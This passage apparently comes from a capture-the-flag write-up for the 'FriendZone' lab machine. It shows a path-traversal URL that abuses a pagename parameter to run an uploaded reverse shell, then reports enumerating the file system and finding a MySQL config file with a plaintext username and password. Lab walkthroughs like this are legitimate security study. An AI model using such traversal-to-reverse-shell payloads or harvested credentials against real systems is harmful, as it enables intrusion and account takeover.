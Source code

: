 ```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../etc/Development/rshell
```

Once the reverse shell was accessed at /etc/Development via the pagename parameter, I was in. 

![image](assets/81484692-b5c86880-9215-11ea-830d-75cf877d1d44.png)

## Steps (root/system)

Enumerating the file system I came across a file called mysql_data.conf with the username and password of friend:Agpyu12!0.213$
